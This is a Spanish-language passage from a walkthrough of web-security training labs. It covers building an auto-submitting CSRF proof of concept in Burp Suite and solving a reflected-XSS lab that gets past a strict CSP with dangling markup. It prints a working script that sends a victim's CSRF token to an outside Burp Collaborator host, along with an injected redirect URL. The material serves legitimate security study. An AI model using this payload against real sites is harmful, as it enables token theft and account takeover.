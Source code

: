 Entonces, lo que haremos será ir de nuevo, a la seccion de cambiar la contraseña e interceptar el paquete.

![](img65.png)

Y luego le damos clic derecho en **Engagement tools** y luego en **Generate CSRF PoC**. Luego reemplazamos el token CSRF, luego en options clic en **Include auto-submit script**, clic en regenerate y en copy HTML.

![](img66.png)

Luego vamos al Exploit server, colocamos todo lo copiado en body, guardamos y enviamos a la victima.

![](img67.png)

![](img68.png)

## 29. Lab: Reflected XSS protected by very strict CSP, with dangling markup attack (P)

```
Este laboratorio utiliza un CSP estricto que bloquea las solicitudes salientes a sitios web externos.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios que omita el CSP y exfiltra el token CSRF mediante Burp Collaborator. Debe etiquetar su vector con la palabra "Hacer clic" para inducir al usuario víctima simulada a hacer clic en él. Por ejemplo:<a href="">Click me</a>

Puede utilizar las siguientes credenciales para iniciar sesión para realizar pruebas:

Nombre de usuario: wiener
Contraseña: peter
```

Este laboratorio es muy parecido al anterior, solo que esta vez es mucho mas restrictivo por ello usaremos el siguiente payload en el exploit server. Siendo nuestro servidor de burp collaborator: **58bqpzg2y7rkjz1ffo97gcsnkeq4et.burpcollaborator.net**.

```html
<script>
if(window.name) {
    new Image().src='//58bqpzg2y7rkjz1ffo97gcsnkeq4et.burpcollaborator.net?'+encodeURIComponent(window.name);
    } else {
        location = 'https://ac4f1f601fb90c4a8021091a00f800a2.web-security-academy.net/email?email=%22%3E%3Ca%20href=%22https://acb91fc71f3f0c8a800b093f01b700cf.web-security-academy.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```
